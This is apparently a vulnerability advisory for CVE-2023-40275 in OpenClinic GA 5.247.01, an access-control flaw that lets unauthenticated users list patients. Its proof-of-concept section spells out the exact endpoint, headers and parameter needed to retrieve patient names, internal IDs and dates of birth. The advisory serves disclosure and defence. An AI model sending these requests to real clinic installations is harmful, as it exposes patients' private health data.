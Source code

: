 # CVE-2023-40275: Insecure Direct Object References Leading to Unauthenticated Patient List Access in OpenClinic GA
## Abstract
A critical Insecure Direct Object Reference (IDOR) vulnerability has been identified in OpenClinic GA, version 5.247.01, allowing unauthenticated users to enumerate patients. The vulnerability is due to inadequate implementation of access control checks within the patientslistShow.jsp component, thereby allowing unauthorized individuals to execute specific POST requests for sensitive patient data retrieval.

## Identification
CVE ID: CVE-2023-40275

Exploit Title: Unauthenticated Patient List Retrieval via IDOR in OpenClinic GA 5.247.01

Date Discovered: 14-08-2023

Affected Software: OpenClinic GA version 5.247.01

Vendor: OpenClinic

Software Link: [SourceForge Project Page](https://sourceforge.net/projects/open-clinic/)

Tested Environments: Windows 10, Windows 11

## Vulnerability Details
The identified vulnerability exploits inadequate access controls within OpenClinic GA's web application, specifically targeting the patientslistShow.jsp component. By crafting and submitting specific POST requests, unauthorized attackers can bypass authentication mechanisms to access and enumerate sensitive patient information. This vulnerability exposes patient details to potential unauthorized access, thereby breaching the confidentiality and integrity of personal health information.

## Proof of Concept (PoC)
  Steps to Reproduce:

    1. Preparing the POST Request:
      Use an HTTP client capable of sending POST requests (e.g., curl, Postman, or a custom script).
      Target URL: http://[IP]:10088/openclinic/_common/search/searchByAjax/patientslistShow.jsp, replacing [IP] with the actual IP address or domain of the OpenClinic GA installation.

    2. Crafting the Request Body:
      Include headers in the request as follows:
        Accept: text/javascript, text/html, application/xml, text/xml, /
        X-Prototype-Version: 1.7.3
        X-Requested-With: XMLHttpRequest
        User-Agent: [Your User Agent]
        Content-type: application/x-www-form-urlencoded; charset=UTF-8
        Origin: http://[IP]:10088
        Accept-Encoding: gzip, deflate
        Accept-Language: en-US,en;q=0.9
        Connection: close
        
      In the request body, include the parameter findFirstname=[any name].
    
    3. Sending the Request and Observing the Outcome:
      Upon sending the POST request, the server responds with a list of patients matching the findFirstname parameter, all without requiring authentication.

    4. Confirming the Vulnerability:
      This method exposes the internal ID and date of birth of patients, confirming an Incorrect Access Control vulnerability. The capacity to retrieve patient lists without authentication poses a significant risk, enabling unauthorized access to sensitive patient information.

## Impact
The exploitation of this vulnerability can lead to unauthorized access to sensitive patient information, including names, internal IDs, and dates of birth. This breach of privacy could have severe implications for affected individuals.
